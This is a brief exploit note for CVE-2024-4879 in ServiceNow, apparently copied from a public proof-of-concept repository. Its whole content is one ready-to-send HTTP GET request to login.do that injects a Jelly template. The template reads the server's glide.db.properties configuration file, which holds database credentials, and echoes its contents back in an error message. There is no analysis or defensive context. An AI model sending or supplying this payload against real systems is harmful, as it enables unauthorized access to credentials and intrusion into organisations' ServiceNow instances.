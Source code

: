 # CVE_2024_4879

from: https://github.com/wy876/POC/blob/main/ServiceNow-UI%E5%AD%98%E5%9C%A8Jelly%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CVE-2024-4879).md
```
GET /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly:core" xmlns:g='glide'><g:evaluate>z=new Packages.java.io.File("").getAbsolutePath();z=z.substring(0,z.lastIndexOf("/"));u=new SecurelyAccess(z.concat("/co..nf/glide.db.properties")).getBufferedReader();s="";while((q=u.readLine())!==null)s=s.concat(q,"\n");gs.addErrorMessage(s);</g:evaluate></j:jelly></style> HTTP/1.1
Host: 
```
